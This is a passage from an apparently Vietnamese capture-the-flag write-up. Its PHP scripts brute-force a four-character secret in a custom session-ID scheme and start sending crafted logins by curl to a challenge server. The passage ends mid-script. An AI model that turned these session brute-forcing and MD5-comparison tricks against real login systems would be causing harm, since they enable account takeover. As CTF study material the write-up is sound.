 ```php
    return $id;
}

function bruteforce($username, $password){
    $chr = str_split("ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789{_-}");
    $s = $username . $password;
    foreach ($chr as $i) {
        foreach ($chr as $j) {
            foreach ($chr as $k) {
                foreach ($chr as $l) {
                    $tmp = session_id_gen($s, $i.$j.$k.$l);
                    $s_hash = session_id_secure($s);
                    
                    if ($s_hash == $tmp){
                        echo "Found : " . $i.$j.$k.$l . "\n";
                        return 0;
                    }
                    
                }
            }
        }
    }
}

bruteforce("z", "h");

?>
```

Sau khi bruteforce thì ta tìm được chuỗi Miku mà mình đặt vào trong flag.

![image](https://hackmd.io/_uploads/SJMir4kF1g.png)

Ok bây giờ kết hợp tất cả lại và bruteforce thôi nhưng giờ là brute nhiều part hơn nên khá là lâu.

```php
<?php

function get_user_pass(){
    $chr = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
    $chr = str_split($chr);
    $arr = [];
    foreach ($chr as $i) {
        foreach ($chr as $j) {
            $s = $i . $j;
            if (is_numeric(md5($s)[0])){
                $arr[md5($s)[0]] = [$i, $j];
            }
        }
    }
    return $arr;
}


function get_session($username, $password){
    $ch = curl_init(); 
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    curl_setopt($ch, CURLOPT_CUSTOMREQUEST, 'POST');
    curl_setopt($ch, CURLOPT_URL, 'http://52.59.124.14:5008/');
    curl_setopt($ch, CURLOPT_POSTFIELDS, 'username='.$username.'&password='.$password);
    curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);
    curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
    curl_setopt($ch,  CURLOPT_HEADER,  1); 
    
```